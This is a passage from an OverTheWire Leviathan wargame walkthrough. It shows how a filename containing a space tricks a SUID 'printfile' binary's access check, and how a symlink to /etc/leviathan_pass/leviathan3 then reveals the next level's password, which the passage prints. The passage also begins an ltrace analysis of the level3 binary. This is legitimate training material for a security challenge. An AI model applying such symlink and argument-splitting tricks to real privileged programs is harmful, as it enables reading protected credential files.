 We need a way to bypass this problem...
Testing out the "printfile", we also understeand that if we  put 2 files only the first one get printed; another interesting behaviour is that if we create a file with a space in the middle of the filename, the access function looks at the whole filename, BUT /bin/cat only get the part before the space.

Knowing this we can create a new file that links the password file and gives leviathan3 user permissions to access the directory. Doing so the executable will be able to open the password file.

Ok many things all toghether, let's do it step by step:
Create the file with the space in the name
```bash
touch /tmp/test1/"test file.txt"
```

Creathe the link between the 2 files
```bash
ln -s /etc/leviathan_pass/leviathan3 /tmp/test1/test
```

Finally print the file to get the password
```bash
./printfile /tmp/test1/"test file.txt"
```

And the password will be displayed right before the error message : Q0G8j4sakn
<br/>
<br/>

### LEVEL 3 --> 4
Login into the machine via ssh
```bash
ssh leviathan3@leviathan.labs.overthewire.org -p 2223
```
Insert the password we have found in the previous level.

Check the content of the home directory with
```bash
ls -la
```

This time we can see a file, an executable, called "level3", it is owned by leviathan4 and has the SUID bit set.

If we try to execute it
```bash
./level3
```
it tells us to enter the password, but we don't know it, yet at least.

We can analyze the behavior with
```bash
ltrace ./level3
```
We can see a function called "strcmp" which is used to handle strings comparison, to be more specific it will compare the characters of the two strings in sequence until it finds a mismatch or until the end of the strings is reached.
